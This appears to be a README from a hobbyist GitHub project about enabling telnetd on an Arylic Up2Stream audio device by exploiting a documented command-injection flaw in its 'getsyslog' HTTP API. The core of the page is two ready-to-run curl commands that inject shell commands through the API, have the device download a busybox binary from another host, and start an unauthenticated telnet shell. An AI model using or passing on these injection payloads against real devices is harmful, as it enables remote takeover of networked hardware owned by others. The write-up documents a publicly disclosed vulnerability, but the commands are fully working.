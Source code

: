 # Enable telnetd
To enable telnetd on these devices, a security vulnerability had to be exploited. The first version on my devices was 4.2.8020 from 2020/02/20 (20th of Feb 2020) that still had a vulnerability in their code: internally a "sprintf" function was used to prepare a Linux CLI commands. That function was using an IP address as an input, but the input could be extended with ";" and additional commands to download and install a telnetd.

The command that has this vulnerability is **_"getsyslog"_**, see https://developer.arylic.com/httpapi/#get-system-log and https://labs.withsecure.com/advisories/linkplay-firmware-wanlan-remote-code-execution. The command has an option to add an IP address from a slave device, e.g. **_"getsyslog:ip:10.1.1.90"_**, so a CLI command is executed on the device to retrieve the system log from the slave device that includes the IP address. Instead of just having an IP address as a parameter, that CLI command can also include a ";" and a second CLI command. You do not even have to provide an IP address, but can append the ";" and second command directly after the ":ip:". 

The following code snippets are using the IP address 10.1.1.52 for my Arylic Up2Stream Pro v3 device and 10.1.1.22 for a web server running on my local MacBook. 
```
curl "http://10.1.1.52httpapi.asp?command=getsyslog:ip:;wget+-O+/tmp/busybox+-T+5+http://10.1.1.22/a31/busybox+-q;/bin/chmod+777+/tmp/busybox;/tmp/busybox+telnetd+-l/bin/ash";
```
The command above is executing the following commands on the device:
```
wget -O /tmp/busybox -T 5 http://10.1.1.22/a31/busybox -q;
/bin/chmod 777 /tmp/busybox;
/tmp/busybox telnetd -l/bin/ash
```
The tool **_"busybox"_** is like a swiss army knife and combines a lot of CLI commands in a single binary file. That file was stripped down already in my version and does not include a telnetd anymore. Therefore you have to get a full version from somewhere. A version of busybox is provided here:

There is an OpenWRT archive where you can get precompiled binaries for almost all utilities you may need:
https://archive.openwrt.org/chaos_calmer/15.05/ramips/mt7628/packages/base/

The binaries are included in packages


```
curl "http://10.1.1.52httpapi.asp?command=getsyslog:ip:10.1.1.22/index.html;wget+-O+/tmp/busybox+-T+5+http://10.1.1.22/a31/busybox+-q;/bin/chmod+777+/tmp/busybox;/tmp/busybox+telnetd+-l/bin/ash+>+/tmp/web/cmd.out+2>+/tmp/web/cmd.err;";
```

